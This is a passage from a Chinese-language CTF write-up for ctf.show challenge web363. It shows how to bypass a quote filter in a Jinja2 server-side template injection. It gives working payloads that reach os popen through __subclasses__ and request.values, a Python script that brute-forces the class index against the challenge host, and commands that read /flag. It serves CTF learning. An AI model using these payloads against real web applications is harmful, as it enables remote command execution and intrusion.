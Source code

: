 ## web363   【过滤引号】

这里可以使用构造request方式绕过 这里过滤了引号

我们需要构造无引号的

这里可以记住 过滤了引号 我们就可以通过括号来查找

### 使用getitem  自定义变量

这里可以使用自定义的变量来绕过 request.values.a 类似于自己定义的变量

只需要在}}后面传递参数即可

```handlebars
{{().__class__.__mro__[1].__subclasses__()}}
 
 
/?name={{().__class__.__mro__[1].__subclasses__()[].__init__.__globals__.__getitem__(request.values.a)}}&a=popen
 
这里是我们需要跑的脚本类型
 
我们需要找到popen来执行命令 我们就可以通过遍历类 然后通过__getitem__找到方法request
然后来查询popen
```

写个脚本

```python
import requests
 
baseurl="http://c48f6cc8-a4d6-4783-86af-982c96cf190e.challenge.ctf.show/?name="
 
for i in range(1000):
    payload="""{{().__class__.__mro__[1].__subclasses__()[%i].__init__.__globals__.__getitem__(request.values.a)}}&a=popen"""%i
    r=requests.get(url=baseurl+payload)
    if "popen" in r.text:
        print(i)
    else:
        continue
```

跑出来132

```handlebars
{{().__class__.__mro__[1].__subclasses__()[132].__init__.__globals__.__getitem__(request.values.a)(request.values.b).read()}}&a=popen&b=ls
 
 
/?name={{().__class__.__mro__[1].__subclasses__()[132].__init__.__globals__.__getitem__(request.values.a)(request.values.b).read()}}&a=popen&b=cat /flag
```

## web364   【过滤 args和引号】
